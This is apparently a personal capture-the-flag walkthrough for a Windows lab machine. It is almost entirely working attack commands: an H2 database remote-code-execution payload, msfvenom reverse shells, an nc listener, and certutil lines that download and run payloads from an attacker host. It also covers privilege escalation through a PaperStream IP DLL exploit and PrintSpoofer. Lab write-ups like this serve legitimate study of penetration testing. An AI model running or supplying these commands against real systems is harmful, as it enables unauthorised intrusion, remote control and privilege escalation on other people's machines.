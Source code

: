 # Jacko
# date - 5/8/2023
# ip - 192.168.221.66


# nmap
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8082/tcp open  http          H2 database http console



# Port 8082:
192.168.221.66:8082
The default credentials sa: worked. Here we can run SQL queries.
We see the version of the product (H2 1.4.199). This version suffers from an RCE vulnerability.
└─$ searchsploit H2 1.4.199 



-- Write native library
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90), ... ,CHAR(0x00),CHAR(0x00),CHAR(0x00),CHAR(0x00),'"'), 'ISO-8859-1', '', '', '', '', '');

-- Load native library
CREATE ALIAS IF NOT EXISTS System_load FOR "java.lang.System.load";
CALL System_load('C:\Windows\Temp\JNIScriptEngine.dll');

-- Evaluate script
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');

With this, we can run the systeminfo command. This shows us that the architecture is x64.


# exploitation
└─$ nc -lvnp 445                    
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=192.168.45.194 LPORT=8082

sudo python3 -m http.server 80


Let’s use certutil to download the file. I had a lot of issues with syntax, so it’s important to experiment. Note the double slashes.

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.194/reverse.exe C:\\Windows\\temp\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');                                                                                                       
OR

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.194/shell.exe C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');


And then execute the reverse shell.


CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');



# priv esc
dir "C:\Program Files (x86)"


The readmeenu.rtf file contains the version information.

type "C:\Program Files (x86)\PaperStream IP\TWAIN\readmeenu.rtf"

C:\Windows\System32>whoami.exe /priv

 msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.194 LPORT=8082

sudo python3 -m http.server 80

certutil.exe -urlcache -split -f http://192.168.45.194/shell.dll C:\Users\tony\Desktop\shell.dll


C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe C:\Users\tony\Desktop\shell.dll

sc.exe qc FJTWSVIC

searchsploit -m 49382
nano 49382.ps1

$PayloadFile = "C:\Users\tony\Desktop\shell.dll"

49382.ps1

certutil.exe -urlcache -split -f http://192.168.45.194/49382.ps1 C:\Users\tony\Desktop\49382.ps1

powershell -nop -ep bypass -f C:\Users\tony\49382.ps1
 
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f C:\Users\tony\Desktop\49382.ps1

# extra didnt work
https://github.com/dievus/printspoofer

PrintSpoofer.exe -i -c cmd


certutil -urlcache -split -f http://192.168.45.194/PrintSpoofer.exe.exe C:/Windows/Temp/print.exe

certutil.exe -urlcache -split -f http://192.168.45.194/PrintSpoofer.exe C:\Users\tony\Desktop\print.exe


print.exe -i -c cmd